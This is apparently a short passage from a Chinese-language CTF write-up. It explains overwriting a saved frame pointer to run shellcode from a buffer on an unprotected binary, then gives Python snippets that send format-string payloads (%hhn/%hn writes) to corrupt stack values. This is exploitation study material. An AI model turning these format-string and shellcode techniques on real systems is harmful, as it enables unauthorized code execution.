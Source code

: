 [![](assets/1701612457-7ba81bab79c12667ccafd0a823b0aaf9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230623214751-8bfe5d18-11cc-1.png)  
什么保护都没开，直接把 prev\_ebp 改为 buf 的地址，然后在 buf 内写入 shellcode，就 getshell 了

[![](assets/1701612457-31e805b4463fa5316885a5e0f3d3d75d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230623214759-91062a02-11cc-1.png)

```plain
pl = b'%' + str(stack_addr & 0xff).encode() + b'c%6$hhn' 
pl = pl.ljust(200,b'\x00')
s(pl)
p.recv()
#duan()

pl = b'%' + str(0xa064).encode() + b'c%10$hn' 
pl = pl.ljust(200, b'\x00')
s(pl)
p.recv()
```

## exp
